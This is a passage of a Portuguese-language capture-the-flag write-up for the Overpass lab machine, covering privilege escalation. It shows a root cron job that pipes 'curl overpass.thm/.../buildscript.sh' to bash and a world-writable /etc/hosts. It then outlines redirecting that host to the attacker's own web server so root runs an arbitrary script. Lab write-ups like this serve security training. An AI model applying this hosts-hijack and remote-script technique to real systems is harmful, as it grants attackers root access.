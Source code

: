 A senha é do usuário james, james não possui acesso ao sudo.

```shell
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.
```
{: .nolineno }

Resolvi olhar o crontab.

### crontab

```shell
james@overpass-prod:/etc$ cat crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
{: .nolineno }

Esse script `buildscript.sh` roda a cada minuto.  
Tentei alterar o curl e o script provavelmente esta em algum diretório que somente root tem acesso.

Porém é possível alterar o arquivo hosts e setar o host `overpass.thm` para meu ip.

`james@overpass-prod:/usr/bin$ ls -la /etc/hosts`  
`-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts`  

A ideia aqui é fazer o curl executado pelo crontab buscar o endereço em meu servidor web em python, sendo assim coloco o que quiser no script.

![alt text](/assets/img/overpass/10.png)
